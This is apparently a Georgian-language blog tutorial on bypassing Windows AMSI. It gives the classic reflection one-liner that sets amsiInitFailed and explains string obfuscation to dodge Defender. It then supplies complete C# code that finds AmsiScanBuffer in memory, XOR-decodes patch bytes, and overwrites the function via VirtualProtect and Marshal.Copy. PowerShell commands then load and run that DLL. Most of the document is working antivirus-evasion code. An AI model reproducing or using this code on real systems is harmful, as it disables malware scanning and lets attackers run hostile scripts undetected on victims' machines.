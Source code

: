 ```yaml
---
title: "Amsi First"
date: 2023-03-07T01:38:06+04:00
draft: false
---
```


# AMSI In-Memory Patching / P/Invoke


<br><br>
რომ დაგუგლოთ `amsi bypass` ან `amsi evasion`, უამრავ გამზადებულ “ქომანდებს” ნახავთ რომელთა ნახევარი უბრალოდ არ იმუშავებს. მიზეზი კი ის არის, რომ ანტივირუსი, რომელიც სისტემაზე არის მუდმივად განიცდის განახლებას და “მზა” ქომანდები სულაც არ არის ისეთ “მზამზარეული” როგორიც ერთი შეხედვით ჩანდა.

მაგალითად, ავიღოთ ეს ქომანდი, რომელიც 2016 წელს არის დაინტიფიცირებული:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

ამის მიზანი არის .NET reflection ტექნიკის დახმარებით მოახერხოს მემორიში amsiInitFailed ცვლადის შეცვლა, რის მერეც გაითიშება AMSI.

თუმცა, პრობლემა იმაშია რომ ‘AmsiUtils’ სტრინგი იდენტიფიცირდება როგორც მავნე:

![Untitled](/images/amsi-1/Untitled.png)

მაშასადამე, საჭირო ხდება სტრინგის ე.წ “დამახინჯება” ანუ ობფუსკაცია.

მაგალითად:

![Untitled](/images/amsi-1//Untitled%201.png)

![Untitled](/images/amsi-1//Untitled%202.png)

თუმცა, პრობლემა ჯერ ვერ მოგვარდა. პრობლემა იმაშია რომ მსგავსი ე.წ “ბაიპასის” მეთოდები დამოკიდებულია პიროვნების კრეატიულობაზე (თუმცა დიდად არ მოითხოვს კრეატიულობას). საჭირო ხდება სხვანაირი მიდგომა. საჭიროა ქომანდების ძირფესვიანად გააზრება.

მსგავს შემთხვევებში საჭიროა გავიგოთ რა ქომანდებს ვაკოპირებთ, და ზოგადად როგორ მუშაობს AMSI.

თუმცა ეს პოსტი ეხება ცოტა სხვა საკითხს. იმისათვის, რომ არ ვიწვალოთ ბევრი ახალი იდეის მოფიქრებაზე, დაგვიჭრდება პირდაპირ მემორიში საჭირო ადგილას საჭირო ინსტრუქციების შეცვლა.

მაგალითად, powershell.exe როცა ვხსნით, ხდება amsi.dll ის ჩატვირთვა, შემდგომ ხდება AmsiInitialize() ფუნქციის გამოძახება, რომელიც ამზადებს გარემოს AMSI - სთვის. შემდგომ როცა ახალ ქომანდს გავუშვებთ ხდება:

1. AmsiOpenSession() ის გამოძახება
2. AmsiScanBuffer() ის გამოძახება
3. AmsiCloseSession() ის გამოძახება ბოლოს.

ამჯერად ავიღოთ AmsiScanBuffer და ვნახოთ მისი ინსტრუქციები მემორიში windbg - ის დახმარებით:

ვსვავთ breakpoint - ს, amsi!AmsiScanBuffer - ზე

![Untitled](/images/amsi-1//Untitled%203.png)

და როდესაც რაიმე ქომანდს გავუშვებთ, და-trigger-დება:

![Untitled](/images/amsi-1//Untitled%204.png)

![Untitled](/images/amsi-1//Untitled%205.png)

ქვემოთა სურათზე ვხედავთ, რომ მოწმდება არგუმენტები, რომელიც გადავეცით AmsiScanBuffer - ს. თუ რაიმე არასწორია, მაშინ “ვხტებით” ინსტრუქციაზე:

```c
# 0x80070057h = E_INVALIDARG
mov eax, 0x80070057h
```

![Untitled](/images/amsi-1//Untitled%206.png)

შესაბამისად აქედან ვიგებთ, რომ თუკი AmsiScanBuffer ს რაიმე რეგისტრი არ მოეწონა, მაშინ ხტება ბოლო ინსტრუქციებზე და ითიშება “amsi”.

დავწეროთ C# ში კოდი, რომელიც იპოვის მიმდინარე პროცესის მემორიში არსებულ amsiScanBuffer ფუნქციას და შევლის მას.

```csharp
using System;
using System.Reflection;
using System.Security.Policy;
using System.Runtime.InteropServices;
using System.Text;
using System.Collections.Generic;

namespace ClassLibrary1
{
    public class Class1
    {
				// საჭირო WinAPI ფუნქციების დეკლარაცია
        [DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        
        public static void runner()
        {
						// amsi.dll მოდულის მისამართის "აღება"
            IntPtr amsiPtr = GetModuleHandle("amsi.dll");
            StringBuilder haha = new StringBuilder();
						// "AmsiScanBuffer" - როგორც ერთ სტრინგს, Defender აღიქვავს, როგორც მავნე signature
            haha.Append("Am");
            haha.Append("si");
            haha.Append("Sc");
            haha.Append("an");
            haha.Append("Buffer");

						// "AmsiScanBuffer" მისამართის აღება amsi.dll მოდულიდან.
            var amsiScanBuf = GetProcAddress(amsiPtr, haha.ToString());

						// ეს hex ბაიტები იყო და-XOR-ებული 0xC სთან - ეს საჭირო იყო defender ისთვის გვერდის ავლისთვის.
            //new opcodes
            byte[] encodedopcodes = new byte[] { 0xB4, 0x5B, 0x0C, 0x0B, 0x8C, 0xCF };
            byte[] decodedOpcodes = new byte[6];
            List<byte> objList = new List<byte>();

            foreach (byte opcode in encodedopcodes)
            {
                objList.Add((byte)(opcode ^ 0xc));
            }
            objList.CopyTo(decodedOpcodes);

						// memory page - ისთვის შესაბამისი პერმიშენების მინიჭება
            VirtualProtect(amsiScanBuf, (UIntPtr)encodedopcodes.Length, 0x40, out uint oldProtect);
            Marshal.Copy(decodedOpcodes, 0, amsiScanBuf, decodedOpcodes.Length);
        }
    }
}
```

აღსანიშნავია, რომ ეს უნდა შევინახოთ როგორც .DLL ფაილი და შემდგომ იგი უნდა ჩავტვირთოთ როგორც ახალი .NET Assembly:

```powershell
$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\Public\ClassLibrary1.dll")
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

პირველ რიგში დავრწუმნდეთ, რომ ეს ჩვენი სტრინგი: “AmsiUtils” დაფიქსირებადია Windows Defender - ის მიერ:

![Untitled](/images/amsi-1//Untitled%207.png)

ჩავტვირთოთ ახალი .NET Assembly მიმდინარე პროცესში:

![Untitled](/images/amsi-1//Untitled%208.png)

![Untitled](/images/amsi-1//Untitled%209.png)